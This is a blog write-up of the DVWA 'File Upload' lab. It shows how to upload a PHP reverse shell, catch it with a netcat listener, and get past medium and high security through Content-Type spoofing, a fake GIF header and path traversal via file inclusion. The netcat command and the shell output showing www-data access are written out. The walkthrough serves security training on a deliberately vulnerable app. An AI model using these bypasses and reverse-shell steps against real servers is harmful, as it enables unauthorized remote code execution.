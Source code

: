 ```yaml
---
title: "File Upload - DVWA"
description: ""
summary: "Exploit the file upload vulnerability to achieve Remote Code Execution (RCE)."
date: 2022-08-17
draft: false
author: "Aftab Sama" # ["Me", "You"] # multiple authors
tags: ["writeups", "challenge", "DVWA", "File Upload"]
canonicalURL: ""
showToc: true
TocOpen: false
TocSide: 'right'  # or 'left'
weight: 5
# aliases: ["/first"]
hidemeta: false
comments: false
disableHLJS: true # to disable highlightjs
disableShare: true
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
# UseHugoToc: true
# cover:
#     image: "<image path/url>" # image path/url
#     alt: "<alt text>" # alt text
#     caption: "<text>" # display caption under cover
#     relative: false # when using page bundles set this to true
#     hidden: true # only hide on current single page
# editPost:
#     URL: "https://github.com/"
#     Text: "Suggest Changes" # edit text
#     appendFilePath: true # to append file path to Edit link
---
```


### **Security level: low**

Create PHP reverse shell file `rev.php`.

Refference: https://www.revshells.com/

Listing IP: `192.168.170.131` port: `9001`

netcat listener command: `nc -lvnp 9001`

upload the file `rev.php` and visit the url : `http://192.168.170.131/hackable/uploads/rev.php`

and you have reverse shell:

Output:
  
```Shell
┌─[✗]─[aftab@parrot]─[~/Downloads/dvwa]
└──╼ $nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.170.131] from (UNKNOWN) [172.17.0.2] 54022
SOCKET: Shell has connected! PID: 331
whoami
www-data
uname
Linux
```


### **Security level: medium**

This time it is blocking php file we can bypass that by changing:

`Content-Type: application/x-php`  ==>   `Content-Type: image/png`

we can also do that from browser go to inspect element ,Network tab resubmit the request so it show up on network tab select that upload request right click and Edit and Resend:

<img width="407" alt="image" src="https://user-images.githubusercontent.com/79740895/185420346-ab0c9387-7cc6-4402-9376-b3611f35df46.png">

make changes and hit send button,visit the url and you have reverse shell.


### **Security level: high**


Changing Content-Type is not working maybe server is verifying the file header signature.

add `GIF98;` at the start of our exploit file and rename it with `rev.php.png`.

but whene we visit it directly it is not working so we use file inclusion:

url: `http://192.168.170.131/vulnerabilities/fi/?page=file/../../../hackable/uploads/rev.php.png`     <- security high

and we have reverse shell on our netcat listener.

Happy Hacking
